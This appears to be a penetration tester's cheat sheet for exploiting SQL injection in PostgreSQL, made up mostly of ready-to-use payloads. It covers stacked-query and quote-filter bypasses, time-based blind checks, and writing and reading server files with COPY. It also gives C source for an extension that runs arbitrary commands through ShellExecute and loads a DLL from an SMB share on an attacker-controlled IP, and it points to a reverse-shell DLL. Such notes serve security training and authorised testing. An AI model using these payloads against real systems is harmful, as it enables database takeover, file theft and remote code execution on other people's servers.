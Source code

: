 # PostgreSQL

### Notes

- String manipulation functions: https://www.postgresql.org/docs/14/functions-string.html
- Postgres SQL-injection attacks allow an attacker to perform **stacked queries**. This means that we can use a query terminator character in our payload (;), and inject a completely new query into the original vulnerable query string. This makes exploitation much easier since neither the injection point nor the payload are limited by the nature of the vulnerable query.

### Checklist

- [x] Check if user is DBA: `SELECT current_setting('is_superuser'); //'on' or 'off'`

### Quoted String Bypass

**Piping**

You can select individual characters using their code points (numbers that represent characters) and concatenate them together using the double pipe (||) operator.

> Note: This does not work for all SQL statements. See below for further bypasses.

```
amdb=#SELECT CHR(65) || CHR(87) || CHR(65) || CHR(69);
 ?column?
----------
 AWAE
(1 row)
```

**Dollar-quoted String Constants**

[Lexical Structure](https://www.postgresql.org/docs/14/sql-syntax-lexical.html) in PostgreSQL allows other methods to represent strings. One is support for dollar-quoted string constants. Two dollar characters ($$) can be used as a quote (') substitute by themselves, or a single one ($) can indicate the beginning of a "tag". The tag is optional, can contain zero or more characters, and is terminated with a matching dollar ($). If used, this tag is then required at the end of the string as well:

```
SELECT 'AWAE';
SELECT $$AWAE$$;
SELECT $TAG$AWAE$TAG$;

CREATE TEMP TABLE AWAE(offsec text);INSERT INTO AWAE(offsec) VALUES ($$test$$);
COPY AWAE(offsec) TO $$C:\Program Files (x86)\PostgreSQL\9.2\data\test.txt$$;

COPY 1

Query returned successfully in 201 msec.
```

### Time-based Injection

Check if executing as DBA:
```
SELECT+case+when+(SELECT+current_setting($$is_superuser$$))=$$on$$+then+pg_sleep(10)+end;--+
```

### Write to a File

```
COPY (select $$awae$$) to <file_name>
COPY (select $$awae$$) to $$C:\pwnd.txt$$
```
> Postgres COPY TO function does not support newline control characters in a single SELECT statement.
> Use a base64 encoded, then URL encoded string to reliably write file contents. If the URL query string will exceed the max URL length (2048 characters), try convert method to POST.

Example:

```
COPY (SELECT convert_from(decode($$B64_URL_ENCODED_PAYLOAD$$,$$base64$$),$$utf-8$$)) TO $$C:\\Program+Files+(x86)\\ManageEngine\\AppManager12\\working\\conf\\\\application\\scripts\\wmiget.vbs$$;
```

1. We need to use base64 encoding to avoid any issues with restricted characters within the COPY TO function.
2. We also need to URL encode the payload so that nothing gets mangled by the web server itself.
3. Finally, we need to use the `convert_from` function to convert the output of the decode function to a human-readable format to be stored in the destination file.

### Read a File

```
DROP TABLE IF EXISTS awae;
CREATE temp table awae (content text);
COPY awae FROM $$c:\awae.txt$$;
SELECT content FROM awae;
DROP TABLE awae;
```

**Exfiltrating data (Blind)**

```
create+temp+table+awae+(content+text);copy+awae+from+$$c:\awae.txt$$;select+case+when(ascii(substr((select+content+from+awae),1,1))=104)+then+pg_sleep(10)+end;--+
```

### PostgreSQL Extensions

We can load an extension using the following syntax style:

`CREATE OR REPLACE FUNCTION test(text) RETURNS void AS 'FILENAME', 'test' LANGUAGE 'C' STRICT;`

**Loading a Custom Dynamic Library**

> The compiled extension we want to load must define an appropriate Postgres structure (magic block) to ensure that a dynamic library file is not loaded into an incompatible server. If the target library doesn't have this magic block (as is the case with all standard system libraries), then the loading process will fail.

```
CREATE OR REPLACE FUNCTION system(cstring) RETURNS int AS 'C:\Windows\System32\kernel32.dll', 'WinExec' LANGUAGE C STRICT;
SELECT system('hostname');
ERROR:  incompatible library "c:\Windows\System32\kernel32.dll": missing magic block
HINT: Extension libraries are required to use the PG_MODULE_MAGIC macro.

********** Error **********
```

As seen above, the loading process failed which means that a custom dynamic library must be compiled.

```
#include "postgres.h"
#include <string.h>
#include "fmgr.h"
#include "utils/geo_decls.h"
#include <stdio.h>
#include "utils/builtins.h"

#ifdef PG_MODULE_MAGIC
PG_MODULE_MAGIC;
#endif

/* Add a prototype marked PGDLLEXPORT */
PGDLLEXPORT Datum awae(PG_FUNCTION_ARGS);
PG_FUNCTION_INFO_V1(awae);

/* this function launches the executable passed in as the first parameter
in a FOR loop bound by the second parameter that is also passed */
Datum
awae(PG_FUNCTION_ARGS)
{
	   /* convert text pointer to C string */
    #define GET_STR(textp) DatumGetCString(DirectFunctionCall1(textout, PointerGetDatum(textp)))

    /* retrieve the second argument that is passed to the function (an integer)
    that will serve as our counter limit*/
    int instances = PG_GETARG_INT32(1);

    for (int c = 0; c < instances; c++) {
        /*launch the process passed in the first parameter*/
        ShellExecute(NULL, "open", GET_STR(PG_GETARG_TEXT_P(0)), NULL, NULL, 1);
    }
	PG_RETURN_VOID();
}
```

The template above can be used to build a basic extension. We can initiate the build process by going to `Build > Build Solution` in Visual Studio.

The following queries will create and run a UDF called test, bound to the awae function exported by our custom DLL.

```
create or replace function test(text, integer) returns void as $$C:\awae.dll$$, $$awae$$ language C strict;
SELECT test($$calc.exe$$, 3);
```

To remove the DLL whilst debugging, use the following, then edit your extension code, re-compile, and re-test the extension:

```
c:\> net stop "Applications Manager"
c:\> del c:\awae.dll
c:\> net start "Applications Manager"
DROP FUNCTION test(text, integer);
```

**Load a remote DLL**

The source DLL file we are using for the UDF could be also located on a network share.

Start and SMB server: `kali@kali:~$ sudo impacket-smbserver awae /home/kali/awae/`

```
CREATE OR REPLACE FUNCTION remote_test(text, integer) RETURNS void AS $$\\192.168.119.120\awae\awae.dll$$, $$awae$$ LANGUAGE C STRICT;
SELECT remote_test($$calc.exe$$, 3);
```

See [PostgreSQL Extensions](/skeleton-scripts/PostgreSQL%20Extensions/) for skeleton code for a reverse shell DLL.
